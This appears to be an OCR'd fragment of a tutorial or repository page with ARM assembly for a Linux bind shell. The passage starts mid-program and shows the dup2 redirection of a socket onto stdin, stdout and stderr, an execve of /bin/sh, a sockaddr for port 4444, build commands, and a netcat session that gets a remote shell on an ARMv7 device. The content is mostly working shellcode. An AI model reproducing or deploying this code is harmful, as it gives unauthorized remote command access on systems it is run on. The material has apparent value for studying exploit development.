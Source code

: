 ```
    mov r4, r0

    @ syscall #63 dup2(sock, stdin)
    mov r0, r4
    eor r1, r1, r1
    mov r7, #63
    svc #1

    @ dup2(sock, stdout)
    mov r0, r4
    mov r1, #1
    svc #1

    @ dup2(sock, stderr)
    mov r0, r4
    mov r1, #2
    svc #1

    @ syscall #11 execve("/bin/sh", 0, 0)
    adr r0, _string
    eor r1, r1, r1
    eor r2, r2, r2
    mov r7, #11
    svc #1

_sa:
.word 0x5c11ff02
.word 0xffffffff

_string:
.ascii "/bin/shA"


```

A quick test

```
$ as bindshell.s -o bindshell.o
$ ld -N bindshell.o -o bindshell
$ ./bindshell


```

On the remote

```
remote:$ nc 192.168.10.221 4444
uname -a
Linux wandq-2 4.19.12-jumpnow #1 SMP Sat Dec 22 09:14:15 UTC 2018 armv7l armv7l armv7l GNU/Linux
exit


```
